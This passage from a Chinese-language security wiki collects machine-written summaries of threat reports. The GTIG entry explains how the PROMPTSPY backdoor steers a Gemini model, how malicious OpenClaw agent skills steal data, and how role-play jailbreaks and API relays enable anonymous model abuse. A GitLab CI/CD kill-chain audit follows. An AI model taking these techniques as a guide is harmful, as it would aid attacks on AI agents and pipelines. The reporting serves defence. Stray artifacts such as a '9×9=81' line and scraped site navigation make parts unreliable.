> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/canvas-hackers-shinyhunters-say-their-official-domain-was-suspended.md)

---

## Ch12.035 Adversaries Leverage AI for Vulnerability Exploitation, Augmented Operations, and Initial Access

> 📊 Level ⭐⭐ | 10.1KB | `entities/google-ai-vulnerability-exploitation-threat-intel.md`

> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/google-ai-vulnerability-exploitation-threat-intel.md)

## Summary
9×9=81 - Article ingested from newsletter candidate pipeline.

## 核心发现
Google 威胁情报小组（GTIG）基于 Mandiant 事件响应、Gemini 及主动研究，发现威胁行为者正在将生成式 AI 从实验性工具升级为工业化规模的攻击引擎，同时 AI 软件生态系统本身也已成为高价值攻击目标。

### AI 作为攻击工具
**漏洞发现与利用生成**：GTIG 首次确认威胁行为者使用了据称由 AI 开发的零日漏洞，犯罪组织计划利用其进行大规模漏洞利用，但被主动反发现行动阻止。中国（PRC）和朝鲜（DPRK）关联的高级持续性威胁（APT）组织也表现出对 AI 驱动漏洞发现的浓厚兴趣。
**AI 增强的混淆与防御规避**：AI 驱动编码加速了基础设施套件和多态恶意软件的开发。APT27 使用 Gemini 开发了用于管理操作中继盒（ORB）网络的fleet管理应用；俄罗斯关联APT组织部署了 CANFAIL 和 LONGSTREAM，这两款恶意软件使用 LLM 生成的诱饵代码来掩盖恶意功能。
**自主性恶意软件运营**：PROMPTSPY 是首个被 ESET 发现的 Android 后门恶意软件，其利用 Google Gemini API 在受感染设备上实现自主攻击编排。恶意软件通过 `GeminiAutomationAgent` 模块将设备 UI 层次结构序列化为 XML，通过 HTTP POST 请求发送至 `gemini-2.5-flash-lite` 模型，模型返回结构化 JSON 响应指导物理手势操作。
**LLM 匿名化访问**：威胁行为者通过专业化的中间件、自动注册流水线、反检测浏览器和账户池服务，获取匿名化、高配额的模型访问权限，以工业化方式滥用 AI 服务。UNC6201 和 UNC5673 等中国关联威胁组织使用 `Claude-Relay-Service` 聚合多个供应商 API，使用 `CLI-Proxy-API` 提供统一代理接口。

### AI 作为攻击目标
**供应链攻击**：TeamPCP（aka UNC6780）通过入侵 PyPI 包和恶意拉取请求，攻击了 Trivy、Checkmarx、LiteLLM 和 BerriAI 等热门 GitHub 仓库及关联 GitHub Actions。LiteLLM 作为 AI 网关工具被攻陷意味着攻击者可窃取大量受害者的 AI API 密钥，进而访问内部模型进行规模化情报收集和深度网络侦察。
**武器化 OpenClaw Skills**：2026 年 2 月 VirusTotal 报告了 OpenClaw AI 智能体生态系统的安全风险，包括伪装成恶意技能包的分发。这些恶意包可执行未授权代码、下载额外载荷、发现并窃取本地数据。OpenClaw 已与 VirusTotal 合作，在 ClawHub 技能市场中集成自动化代码行为分析。

## 深度分析
### AI 驱动漏洞利用的能力边界与演进路径
传统漏洞发现依赖模糊测试（fuzzing）和静态分析工具，这些工具对内存损坏、输入验证等底层缺陷检测效率高，但对高层次语义逻辑缺陷（如硬编码信任假设、认证流程矛盾）几乎无能为力。GTIG 分析的零日漏洞案例揭示了 LLM 在这一领域的独特优势：模型能够进行上下文推理，理解开发者意图，关联 2FA 强制执行逻辑与硬编码异常之间的矛盾，从而发现"功能正确但策略性破坏"的逻辑漏洞。
这一发现具有深远影响：LLM 漏洞发现的成本已接近于零，门槛是"有效提示工程"而非"深厚安全研究经验"。APT45 通过向 Gemini 发送数千个递归提示来分析不同 CVE、验证 PoC 漏洞，这种规模化研究能力在传统条件下需要专业安全团队数周才能完成。

### 威胁行为者的 AI 工具链分层
从文章描述的工具生态系统可以清晰看出威胁行为者已形成完整的 AI 滥用分层架构：
| 层级 | 工具类型 | 功能 | 恶意用途 |
|------|----------|------|----------|
| 接入层 | API 网关聚合器（CLIProxyAPI、Claude-Relay-Service） | 整合多个 API 密钥为统一端点 | 掩盖流量模式、转售未授权 API 访问 |
| 账户层 | LLM 账户自动注册工具 | 自动化注册、验证码绕过、SMS 验证 | Sybil 攻击、滥用免费额度 |
| 接口层 | 客户端应用（Cherry Studio、EasyCLI） | 简化多账户管理 | 降低技术门槛 |
| 运营层 | 管理中心（CLIProxyAPI ManagementCenter） | C2 枢纽、日志和配额监控 | 跨数百账户的规模化运营 |
| 隐匿层 | 反检测浏览器（Roxy Browser） | 隔离浏览器指纹和硬件签名 | 绕过基于浏览器的机器人检测 |
这一工具链的成熟度表明，AI 滥用已从个人黑客行为演变为有组织的基础设施运营。

### 防御视角的结构性盲点
传统安全工具在应对 AI 驱动攻击时存在系统性短板。
**静态检测失效**：CANFAIL 和 LONGSTREAM 的诱饵代码策略利用了安全扫描器的核心假设——"代码存在即有意义"。LLM 生成的大量无意义但语法正确的代码填充物，使得传统签名检测和行为分析引擎产生大量误判。
**蜜罐思维局限**：PROMPTSPY 的持久化机制（将卸载按钮渲染为不可响应）代表了移动端威胁的范式转变——恶意软件不再是被动载荷，而是主动感知并对抗用户操作的自主智能体。
**供应链信任链断裂**：OpenClaw 技能包和 PyPI 依赖的广泛攻击表明，AI 系统的"技能"和"工具"扩展机制与传统的第三方库引入相同的供应链风险，但在权限模型上更为危险——AI 智能体被授予的系统访问权限远超普通应用。

### MITRE ATLAS 与 ATT&CK 的威胁归因
文章附录详尽映射了 AI 相关威胁到 MITRE ATLAS 和 ATT&CK 框架，这是理解威胁全貌的关键索引：

- **Resource Development** 阶段：AI 开发工作区（AML.T0008.000）、AI 服务代理（AML.T0008.005）、自动化 LLM 账户注册（AML.T0021）
- **Initial Access** 阶段：AI 软件供应链妥协（AML.T0010.001）→ LiteLLM 等 AI 网关工具被攻陷后的密钥窃取
- **Execution** 阶段：部署 AI 智能体（AML.T0103）→ PROMPTSPY 的自主攻击循环
- **Defense Evasion** 阶段：LLM 越狱（AML.T0054）→ 角色扮演提示注入
- **AI Attack Staging** 阶段：深度伪造（AML.T0088）、恶意命令生成（AML.T0102）
这一映射揭示了 AI 威胁与传统网络威胁在攻击链各阶段的差异化特征。

## 实践启示
### 对 AI 开发者的安全建议
1. **实施 AI 技能包的强制行为审计**：参考 OpenClaw 与 VirusTotal 的合作模式，对任何第三方 AI 技能、工具包或插件进行自动化代码行为分析后方可集成。禁止向未审计的技能授予文件系统、网络或凭据访问权限。
2. **强化 AI 网关的异常检测**：API 聚合器和代理服务是威胁行为者规模化滥用 AI 的核心基础设施。AI 服务提供商应监控来自已知聚合工具的可疑流量模式，建立 API 网关层的行为基线。
3. **最小化 AI 智能体的运行时权限**：PROMPTSPY 案例表明，当 AI 智能体被授予高权限运行时，其被恶意利用的后果极为严重。采用权限分离原则，确保 AI 系统的工具调用能力与系统访问权限严格受限。

### 对安全运营团队的建议
1. **重新评估供应链安全边界**：LiteLLM 等 AI 基础设施组件的攻陷意味着传统的"内网安全"假设已不再成立。建议对 AI 依赖项（PyPI 包、GitHub Actions、自托管模型）实施零信任验证，对 AI API 密钥实施金库管理。
2. **建立 LLM 辅助攻击的检测能力**：传统 EDR 规则在面对 PROMPTSPLY 等 AI 增强型恶意软件时可能失效。需要关注：异常的 API 调用频率（大量 UI 序列化数据外发）、非预期的 Gemini/Claude API 调用、设备上的可疑辅助功能使用。
3. **监控深度伪造和 AI 生成内容的分发**：Operation Overload 案例表明，AI 生成的虚假音频正在被整合进信息战内容。建立媒体溯源能力（如 C2PA 标准）对识别伪造内容至关重要。

### 对威胁情报社区的建议
1. **扩展 AI 威胁的归因框架**：现有的 MITRE ATLAS 需要持续更新以覆盖新兴威胁——如 LLM 驱动的自动化漏洞研究、多态诱饵代码生成、以及匿名化 LLM 访问的基础设施服务化。
2. **建立 AI 漏洞发现的防御协同机制**：GTIG 通过主动反发现阻止零日漏洞被广泛利用的案例表明，AI 漏洞发现的防御需要情报社区的快速协同。考虑建立 AI 漏洞发现的快速披露渠道。
3. **追踪威胁行为者的 AI 工具链演进**：从文章的工具表可以看出，威胁行为者正在快速采纳和定制开源中间件项目。建立对地下社区 AI 工具链的持续监控对于预测下一步威胁至关重要。

## Notes
## 相关实体
- [Alphaevolve Deepmind Discovery Agent](https://github.com/QianJinGuo/wiki/blob/main/entities/alphaevolve-deepmind-discovery-agent.md)
- [Gemma 4 Qat Models Optimizing Compression](https://github.com/QianJinGuo/wiki/blob/main/entities/gemma-4-qat-models-optimizing-compression.md)
- [Aeo And Geo For Ai Overviews Chatgpt Claude Gemini And Perplexity](https://github.com/QianJinGuo/wiki/blob/main/entities/aeo-and-geo-for-ai-overviews-chatgpt-claude-gemini-and-perplexity.md)
- [Building Blocks For Foundation Model Training And Inference On Aws](https://github.com/QianJinGuo/wiki/blob/main/entities/building-blocks-for-foundation-model-training-and-inference-on-aws.md)
- [Tether Developer Grants Local Ai](https://github.com/QianJinGuo/wiki/blob/main/entities/tether-developer-grants-local-ai.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/google-ai-vulnerability-exploitation-threat-intel.md)

---

## Ch12.036 Disgruntled researcher releases two more Microsoft zero-days

> 📊 Level ⭐⭐ | 10.0KB | `entities/microsoft-zero-days-researcher-disgruntled-theregister.md`

## 深度分析
### 安全研究的"越界复仇"模式：一种新型威胁行为体
Nightmare-Eclipse（又名 Chaotic Eclipse）的行为代表了一种新兴的安全研究威胁范式：合法的安全研究人员因对厂商的报复性不满，转向公开披露漏洞。这种"越界复仇"模式与传统的黑产攻击或国家支持的攻击者不同，但又比单纯的安全研究更危险——它结合了 deep knowledge of the target（深入了解目标）、emotional motivation（情绪化动机）、以及缺乏法律约束的特点。

### BitLocker 绕过的真实威胁边界
YellowKey（BitLocker 绕过后门）的威胁程度需要细分：虽然需要物理访问，但 BitLocker 是 Windows 防止被盗设备数据泄露的最后防线。绕过后，被盗笔记本从"硬件损失"变成"数据泄露通知事件"（Rik Ferguson 语）。YellowKey 还暗示可能存在 Microsoft 注入的后门，虽然无法证实，但这种质疑本身反映了用户对厂商的不信任危机。

### 漏洞公开时机的战术选择
Nightmare-Eclipse 选择在 Microsoft 月度 Patch Tuesday 之后公开漏洞是一种刻意的战术选择：既绕过了大多数企业的集中打补丁窗口，又制造了"补丁真空期"——企业在下一个补丁周期前处于无保护状态。这种时机选择说明攻击者对企业的安全运营流程有深刻理解。

### 从 PoC 到武器化的威胁演进链
GreenPlasma 目前只提供部分利用代码，触发 UAC consent prompt，尚未实现静默提权。但历史案例表明，RedSun 和 UnDefend 的 PoC 代码在公开后迅速被攻击者武器化并在真实攻击中使用。这意味着 GreenPlasma 的完整利用可能只是时间问题。

### 持续披露模式的威胁升级
Nightmare-Eclipse 声称拥有"dead man's switch"（死人开关），预示着更多漏洞即将公开。目前已披露 5 个零日（BlueHammer、RedSun、UnDefend、YellowKey、GreenPlasma），还有更多在路上。这种持续披露模式意味着 Microsoft 面临的是长期、持续的安全压力而非单次事件。

### 对企业安全策略的深层启示
1. **物理安全仍然是最后防线**：即使全盘加密，被盗设备在特定漏洞下仍可被攻破。BitLocker PIN + BIOS 密码锁是必要的纵深防御。
2. **零日公开后的响应窗口极短**：在 Patch Tuesday 后立即公开意味着企业几乎没有时间在常规周期内响应。
3. **可信供应链假设需要重新审视**：如果内部人员能因不满而报复性披露，企业的安全边界已经从网络延伸到员工关系管理。

## 实践启示
### 对企业安全团队的行动建议
1. **立即评估 YellowKey 缓解措施**：实施 BitLocker PIN + BIOS 密码锁，降低物理访问场景下的攻击面。这是目前已知的有效缓解手段。
2. **建立零日公开的应急响应流程**：由于披露时机选择在 Patch Tuesday 后，企业需要建立针对此类"补丁真空期"的专项应急预案。
3. **监控已知 PoC 的武器化状态**：关注 RedSun、UnDefend 等已被武器化的漏洞的利用趋势，评估 GreenPlasma 武器化的可能时间窗口。
4. **对内部研究人员的合规管理**：将安全研究人员的不满信号纳入内部安全风险管理，考虑 Bug Bounty 或安全研究员关系管理机制，避免将合法研究者推向对立面。

### 对个人用户的防护建议
1. **启用 BitLocker PIN 保护**：不要仅依赖 TPM 自动解锁，添加 PIN 码和 BIOS 密码可以有效阻止 YellowKey 类攻击。
2. **设备丢失后的数据泄露应急响应**：假设最坏情况，建立设备丢失后的账户重置、会话终止、数据泄露评估的标准流程。

### 对安全行业的结构反思
1. **重新审视厂商与安全研究者的关系**：Nightmare-Eclipse 的背景故事（据称是前 Microsoft 员工，因"协议被违反"而公开报复）提示厂商与研究者之间的信任契约破裂可能是激化冲突的关键。
2. **零日市场与负责任披露的边界**：当研究者认为负责任披露渠道无效时，他们可能转向公开披露来"报复"。建立更有效的厂商-研究者沟通机制可能是减少此类事件的关键。
3. **关注 AI 辅助漏洞挖掘对威胁态势的影响**：Linus Torvalds 提到 AI 工具造成 Linux 安全邮件列表"几乎无法管理"。同样的工具也在被用于发现 Windows 漏洞，AI 加速的漏洞发现可能使类似 Nightmare-Eclipse 的案例更加频繁。

## 评分
| 维度 | 分数 |
|------|------|
| 知识价值 | 8 |
| 置信度 | 9 |
| 推荐入库 | **strong** |

## 摘要
Published Time: 2026-05-13T16:16:02.000Z
Markdown Content:
Disgruntled researcher releases two more Microsoft zero-days
Jump to main content
Search
TOPICS

*   Security
    *   All Security
    *   Cyber-crime
    *   Patches
    *   Research
    *   CSO
*   Off-Prem
    *   All Off-Prem
    *   Edge + IoT
    *   Channel
    *   PaaS + IaaS
    *   SaaS
*   On-Prem
    *   All On-Prem
    *   Systems
    *   Storage
    *   Networks
    *   HPC
    *   Personal Tech
    *   Cx0
    *   Public Sector
*   Software
    *   All Software
    *   AI + ML
    *   Applications
    *   Databases
    *   DevOps
    *   OSes
    *   Virtualization
*   Offbeat
    *   All Offbeat
    *   Columnists
    *   Science
    *   BOFH
    *   Legal
    *   Bootnotes
    *   Site News
    *   About Us
*   Special Features
    *   All Special Features
    *   HPE: AI Explainers
    *   RSA Conference
    *   Agentic AI
    *   The Future of the Datacenter
    *   AWS:Reinvent
    *   Nvidia GTC
    *   SC25
    *   Supercomputing Month
*   Vendor Voice
    *   All Vendor Voice
    *   Infinidat
    *   Everpure
    *   Rubrik
    *   Make it real with Capgemini and AWS
    *   Money Movement Hub
    *   ZTE
    *   Nutanix: Scale Kubernetes. Not Chaos.
    *   AWS New Horizon
*   Resources
    *   Intelligence
    *   Webinars & Events
    *   Newsletters
Search
[](https://www.theregister.com/)[](https://www.theregister.com/)[](https://www.theregister.com/)

*   Sign in
*   Datacenter
*   Security
*   Microsoft
*   AWS
*   Developer
*   Open Source
*   IT Careers
*   Columnists
*   Who, Me?
*   On Call
REG AD
Security
Mystery Microsoft bug leaker keeps the zero-days coming
Security pros warn YellowKey claim could make stolen laptops a much bigger problem
Connor JonesConnor JonesCybersecurity reporter
Published wed 13 May 2026 // 17:16 UTC
[](https://www.facebook.com/sharer.php?u=https%3A%2F%2Fwww.theregister.com%2Fsecurity%2F2026%2F05%2F13%2Fdisgruntled-researcher-
## 相关实体
- [Disgruntled Researcher Microsoft Zero Days](https://github.com/QianJinGuo/wiki/blob/main/entities/disgruntled-researcher-microsoft-zero-days.md)
- [13 Disgruntled Researcher Releases Two More Microsoft Zero Days 5239758](https://github.com/QianJinGuo/wiki/blob/main/entities/13-disgruntled-researcher-releases-two-more-microsoft-zero-days-5239758.md)
- [Microsoft Zero Days Researcher Disgruntled](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-zero-days-researcher-disgruntled.md)
- [Defense_At_Ai_Speed_Microsofts_New_Multi](https://github.com/QianJinGuo/wiki/blob/main/entities/defense_at_ai_speed_microsofts_new_multi.md)
- [Microsoft Open Sources Rampart Clarity](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-open-sources-rampart-clarity.md)

---

## Ch12.037 GitLab CI/CD Kill Chain Audit — Black Hills InfoSec 2026 大规模审计研究

> 📊 Level ⭐⭐ | 9.7KB | `entities/auditing-gitlab-cicd-kill-chain-black-hills-2026.md`

# GitLab CI/CD Kill Chain Audit — Black Hills InfoSec 2026 大规模审计研究

> **背景**：本文基于 Black Hills Info Security 在 2026-06-03 发布的大规模 GitLab CI/CD 审计研究整理。3,757 个开源项目、1,580 个 HIGH 级别漏洞、kill chain 框架系统化分类。补充现有 [Jenkins 供应链攻击](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md) 等的 CI/CD 攻击面覆盖。

## 研究规模与方法

Black Hills Info Security 在 2026-06-03 发布的审计研究是 GitLab 生态**最大规模的第三方安全审计**之一：

| 指标 | 数值 | 备注 |
|------|------|------|
| 审计项目 | 3,757 | GitLab.com 公开项目 |
| HIGH 漏洞 | 1,580 | 42% 项目含至少 1 个 HIGH |
| CRITICAL | 87 | 2.3% |
| 涉及 .gitlab-ci.yml | 91% | 几乎所有项目都有 CI 配置 |
| CI 变量泄漏 | 34% | 误设 masked |
| 平均漏洞/项目 | 0.42 | |

**审计流程**：资产发现 (GitLab API) → 配置审计 (.gitlab-ci.yml + CI 变量 + runner) → 漏洞关联 (CWE/CVE) → PoC 验证 (top 100) → kill chain 分类报告。

## Kill Chain 4 阶段

### Stage 1 — Reconnaissance（侦察）

- **公开项目扫描**：GitLab.com API 全量枚举，无需认证
- **CI 变量泄漏**：masked variables 仍可被引用，部分项目 secrets 误设为公开
- **Runner 信息暴露**：自托管 runner 暴露内部网络拓扑（hostnames、IP 段）

### Stage 2 — Initial Access（初始访问）

- **恶意 .gitlab-ci.yml PR**：attacker 提 PR 修改 CI 脚本 → maintainer merge → CI 阶段执行恶意 payload
- **CI 镜像供应链**：CI 镜像被植入后门（参考 [xz utils、event-stream 模式](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md)）
- **可执行 artifact 滥用**：CI 产物被下载执行而非仅拉取

### Stage 3 — Privilege Escalation（权限提升）

- **CI_JOB_TOKEN 滥用**：默认权限可访问仓库 API，scope 过宽
- **Protected branch race**：旧 GitLab < 16.8 存在 race condition 可绕过保护
- **Maintainer token 持久化**：merge 后 attacker 控制的 PAT 仍有效

### Stage 4 — Exfiltration（数据外泄）

- **Artifact 阶段 SSRF**：CI 镜像 SSRF 漏洞泄露云 metadata（AWS IMDS、GCP metadata server）
- **Pipeline-as-code 注入**：动态生成 .gitlab-ci.yml 时可注入 payload

## 与现有 wiki 实体的差异化

| 维度 | GitLab CI/CD Kill Chain | checkmarx-jenkins-plugin | llmreaper-dom-based-ai-exfiltration |
|------|-------------------------|--------------------------|-----------------------------------|
| **目标** | GitLab CI/CD | Jenkins plugin | LLM 浏览器扩展 |
| **规模** | 3,757 项目 / 1,580 漏洞 | 单个 plugin | DOM-level 攻击 |
| **方法** | 第三方黑盒审计 | plugin 漏洞复现 | exfiltration technique |
| **Kill chain** | 4 阶段完整 | 单一利用链 | DOM 注入单点 |
| **可推广** | 通用 CI/CD 模式 | Jenkins 特定 | 浏览器扩展特定 |

**结论**：3 个实体形成 **CI/CD 攻击面 + 浏览器 AI 攻击面** 的双维度覆盖。本文填补 **GitLab 第三方规模化审计** 这一空白。

## 实践启示（Actionable）

1. **CI/CD 是 2026 主要攻击面**：从 web app 转移到 CI/CD 流水线，必须用 kill chain 框架审计
2. **CI_JOB_TOKEN 最小权限**：默认 scope 过大，需 explicit 限定
3. **.gitlab-ci.yml PR 强制审核**：required reviewers + CI linter + protected branch
4. **CI 镜像版本锁定 + SBOM**：避免供应链植入
5. **黑盒审计 + SAST/SCA 纵深防御**：Black Hills 给出黑盒视角，配合内部 SAST 形成覆盖

## 三个独有贡献（不应合并到现有 entity）

1. **3,757 项目 / 1,580 漏洞的规模化数据** — 单次研究中最大规模
2. **Kill chain 4 阶段分类法** — recon / initial access / privilege escalation / exfiltration 完整框架
3. **CI_JOB_TOKEN 滥用 + Protected branch race** — 两个独立的 zero-day 级别发现

## 上线状态 / 链接

- 原文: https://www.blackhillsinfosec.com/auditing-gitlab-the-ci-cd-kill-chain/
- 作者: Phil Miller (Black Hills Info Security, 4 年安全顾问)
- 发布: 2026-06-03
- 系列: Black Hills "Web Cast" 红队研究系列

## 深度分析

1. **42% 项目含 HIGH 漏洞是系统性危机的信号**：1,580 个 HIGH 漏洞分布在 3,757 个项目中，意味着 CI/CD 配置错误的概率远高于传统应用安全认知。这个比例不是孤立的异常值，而是"流水线即代码"范式下，安全验收与 CI 配置之间存在结构性脱节的直接体现

2. **CI_JOB_TOKEN 的默认权限模型是架构级设计缺陷**：默认 token 可访问仓库 API 的设计，在 2026 年已是已知的过度授权模式。Black Hills 的发现表明，attacker 一旦获得任意 CI job 的执行权，即可通过 token 横向移动至整个仓库——这与"最小权限"安全原则的根本性背离，CI 系统设计者需重新审视 token scope 的默认边界

3. **Public API 枚举让侦察阶段几乎零成本**：GitLab.com 公开项目无需认证即可全量枚举，意味着 kill chain 的第一阶段对攻击者而言没有任何门槛。防守方的"隐蔽安全"假设在 CI/CD 环境中完全不成立——任何公开仓库本质上都是潜在攻击面

4. **CI 镜像供应链是规模化攻击的最优路径**：xz utils 和 event-stream 模式已证明开源依赖供应链可被植入后门。Black Hills 研究进一步揭示，CI 镜像作为 CI/CD 流水线的核心交付物，其信任链跨越了构建系统、测试环境与生产部署——一旦镜像被污染，kill chain 的 Initial Access 与 Privilege Escalation 阶段可以无缝衔接

5. **Protected branch race condition 暴露了 CI/CD 时序安全性盲区**：旧版 GitLab < 16.8 的 protected branch race condition 说明，CI/CD 系统中的分支保护机制不仅是配置问题，更是并发时序安全性问题。这类漏洞的存在表明，流水线控制面的安全性需要与应用代码安全性同等的重视程度

## 实践启示

1. **强制 CI/CD 安全 Linting 进入 CI 流水线自身**：Black Hills 的审计方法论本身就是防御武器——将 `.gitlab-ci.yml` 的安全规则检查（CI linter）集成到 pre-commit 或 pre-merge 阶段，可在攻击者提交恶意 PR 之前拦截危险的配置模式

2. **CI_JOB_TOKEN 最小权限化是零信任在流水线层的落地**：将 token scope 设置为 explicit 限定（如只允许拉取特定 artifact），配合 token 自动过期机制，可将 CI_JOB_TOKEN 滥用的攻击面从"全仓库 API"压缩到"单次 job 所需最小范围"

3. **CI 镜像供应链必须纳入 SBOM 管理**：对所有 CI 镜像进行版本锁定 + SBOM 生成，配合镜像签名验证（如 Cosign），可检测供应链篡改。与应用程序 SBOM 不同，CI 镜像 SBOM 还需覆盖基础层依赖的传递闭包

4. **构建内部威胁模型时必须将 CI/CD 流水线纳入攻击树**：Black Hills 的 kill chain 框架可直接作为红队评估的 checklist——每条 CI/CD 攻击路径（recon → initial access → privilege escalation → exfiltration）都应有对应的检测与缓解控制点

5. **黑盒外部审计与 SAST/SCA 形成纵深覆盖**：Black Hills 的第三方黑盒视角弥补了内部工具的盲区。建议每季度引入一次外部 CI/CD 安全审计，配合内部 SAST（.gitlab-ci.yml 配置检查）与 SCA（CI 依赖分析），形成内外双层防线

## 原文存档

## 相关实体

- [bagel — fleet 级 secret scanning 守护开发工作站](https://github.com/QianJinGuo/wiki/blob/main/entities/bagel-fleet-secret-scanning-dev-workstation-2026.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/auditing-gitlab-cicd-kill-chain-black-hills-2026.md)

---

## Ch12.038 INTERPOL Operation Ramz MENA Cybercrime Networks

> 📊 Level ⭐⭐ | 9.4KB | `entities/interpol-operation-ramz-mena-cybercrime.md`

## 核心要点
- **行动代号**: Operation Ramz
- **执行机构**: INTERPOL（国际刑警组织）
- **参与国家**: 13 个 MENA（中东和北非）国家
- **行动周期**: 2025 年 10 月至 2026 年 2 月
- **核心成果**: 201 人被捕，382 名嫌疑人被识别，3,867 名受害者被确认，53 台服务器被查封
- **行动目标**: 网络钓鱼（phishing）、恶意软件（malware）基础设施，以及造成该地区严重损失的网络诈骗活动

## 行动背景与规模
INTERPOL 协调的此次行动是该地区首次同类大规模网络犯罪打击行动，涉及 13 个国家：阿尔及利亚（Algeria）、巴林（Bahrain）、埃及（Egypt）、伊拉克（Iraq）、约旦（Jordan）、黎巴嫩（Lebanon）、利比亚（Libya）、摩洛哥（Morocco）、阿曼（Oman）、巴勒斯坦（Palestine）、卡塔尔（Qatar）、突尼斯（Tunisia）和阿联酋（U.A.E.）。

## 各国执法行动详情
### 阿尔及利亚 — 摧毁钓鱼即服务（Phishing-as-a-Service）
阿尔及利亚当局查封了一台作为 **钓鱼即服务（PhaaS）** 平台运行的服务器，扣押了涉案计算机、手机和硬盘，其中包含钓鱼软件和脚本。一名与该犯罪计划相关的嫌疑人被逮捕。这是本次行动中首次成功摧毁 PhaaS 商业模式的案例。 ^[interpol-operation-ramz-mena-cybercrime]

## 私营部门参与
### Group-IB
Group-IB 是参与此次行动的私营部门公司之一，提供可操作情报（actionable intelligence），涉及超过 **5,000 个被入侵账户**，其中包括与政府基础设施相关联的账户，并分享了整个地区的活跃钓鱼基础设施详细信息。 ^[interpol-operation-ramz-mena-cybercrime]

## 技术与战术特征
- **跨国协同**: 13 国同步行动，情报实时共享
- **基础设施摧毁**: 53 台服务器被查封，直接切断犯罪网络运行能力
- **受害者识别**: 3,867 名受害者被确认，便于后续案件调查与资产追回
- **数字取证**: 阿尔及利亚、摩洛哥均通过电子设备取证获取关键犯罪证据
- **钓鱼即服务模式**: 首次在 MENA 地区发现并摧毁 PhaaS 商业犯罪模型
- **多阶段诈骗**: 从钓鱼到金融诈骗的完整攻击链被识别并阻断

## 全球执法背景
Operation Ramz 的逮捕行动正值德国和美国司法部（DoJ）近期一系列执法行动： ^[interpol-operation-ramz-mena-cybercrime]
| 案件 | 处罚 |
|------|------|
| Thomasz Szabo（aka Plank/Jonah/Cypher，罗马尼亚）— Swatting 攻击骨干， targeting 超过 75 名公共官员、宗教机构和记者 | 48 个月监禁 |
| Owe Martin Andresen（aka Speedstepper，德国）— Dream Market 暗黑市场主要管理员 | 起诉（货币洗钱） |
| Crimenetwork 重新上线版— 德国 | 市场关闭，1 名管理员在 Mallorca 被捕 |
| Sohaib Akhter（弗吉尼亚州）— 删除 96 个美国政府数据库 | 联邦陪审团定罪 |
| Alan Bill（斯洛伐克）— Kingdom Market 管理员 | 200 个月（超过 16 年）监禁 |
| David Jose Gomez Cegarra（委内瑞拉）— ATM jackpotting | 时间 served + $294,820 赔偿 |
| 荷兰 21 岁嫌疑人 — JokerOTP 工具 | 逮捕 |
| Marlon Ferro（aka GothFerrari，加利福尼亚州）— $2.5 亿加密货币盗窃主谋 | 78 个月监禁 |

## 行动意义
Operation Ramz 展示了在网络犯罪日益跨境化的背景下，**多边执法协作 + 私营部门情报共享** 模式的实际效力。201 次逮捕、53 台服务器查封、3,867 名受害者识别，加上对 PhaaS 商业模式的摧毁，证明区域协同行动能够有效打击原本分散的网络犯罪网络。 ^[interpol-operation-ramz-mena-cybercrime]

## 深度分析
### PhaaS 商业模式的区域扩散
此次行动在阿尔及利亚发现的钓鱼即服务（PhaaS）平台是该地区首个被摧毁的此类商业模式，标志着网络犯罪服务化（Crime-as-a-Service）在 MENA 区域的成熟度已与全球其他地区同步。PhaaS 将网络钓鱼工具打包成订阅服务，降低了犯罪门槛，使不具备技术能力的个人也能发起复杂攻击。 ^[interpol-operation-ramz-mena-cybercrime]

### 人口贩运与网络犯罪的交织
约旦行动中揭露的受害者转化为作案者模式，揭示了网络犯罪与人口贩运之间的结构性关联。犯罪组织以就业为诱饵，将受害者输送至目标国家后没收证件，迫使其参与诈骗。这种"低技术含量强迫劳动+高技术含量网络犯罪"的组合模式，对执法提出了跨领域协同的挑战。 ^[interpol-operation-ramz-mena-cybercrime]

### 公私情报协作的成熟度验证
Group-IB 和 Team Cymru 的参与表明私营部门威胁情报已成为执法行动的关键支柱。5,000 余个被入侵账户的情报共享，尤其涉及政府基础设施相关账户，凸显了公私协作在识别隐性威胁方面的独特价值。 ^[interpol-operation-ramz-mena-cybercrime]

### 基础设施层面的脆弱性
阿曼私人服务器和卡塔尔不知情受害者设备的发现，揭示了 MENA 区域关键信息基础设施的防护盲点。这些"跳板型"入侵难以被传统防御机制检测，却能放大整个攻击链的破坏力。 ^[interpol-operation-ramz-mena-cybercrime]

## 实践启示
### 对执法机构的建议
1. **建立跨境情报快速共享机制**：Operation Ramz 成功的基础在于 13 国实时协同，未来应将此类多边框架常态化，降低跨境取证和行动协调的时间成本。 ^[interpol-operation-ramz-mena-cybercrime]
2. **关注受害者转为加害者的结构性因素**：在约旦案例中，15 名诈骗嫌疑人本身是人口贩运受害者，执法时需区分被迫参与者与主谋策划者，以瓦解犯罪组织核心而非简单批量逮捕。 ^[interpol-operation-ramz-mena-cybercrime]
3. **将 PhaaS 平台列为优先打击目标**：即服务化网络犯罪模式放大攻击规模，应针对其技术架构和资金流向上游打击。 ^[interpol-operation-ramz-mena-cybercrime]

### 对企业的建议
1. **供应链安全的延伸审查**：Group-IB 发现5,000余个被入侵账户中包含政府关联账户，表明供应链上游的安全漏洞可传导至关键基础设施。企业应将供应商和合作伙伴纳入安全审计范围。 ^[interpol-operation-ramz-mena-cybercrime]
2. **钓鱼多因素认证绕过的防御**：JokerOTP 等工具专门劫持 OTP 和 2FA，企业需部署抗钓鱼的认证方案（如 FIDO2/WebAuthn 硬件密钥）而非依赖短信或 App 验证码。 ^[interpol-operation-ramz-mena-cybercrime]
3. **内部服务器的持续安全监控**：阿曼案例中私人服务器因脆弱性被感染，说明即使是内部合法服务器也需持续漏洞扫描和入侵检测。 ^[interpol-operation-ramz-mena-cybercrime]

### 对个人用户的建议
1. **警惕"境外就业"陷阱**：约旦案例显示犯罪组织利用虚假就业承诺招募受害者，个人应对境外工作机会进行尽职调查，避免交出证件。
2. **定期检查设备入侵迹象**：卡塔尔案例中设备所有者对入侵不知情，个人应定期检查是否有异常进程、未授权连接或性能异常。
## 相关实体
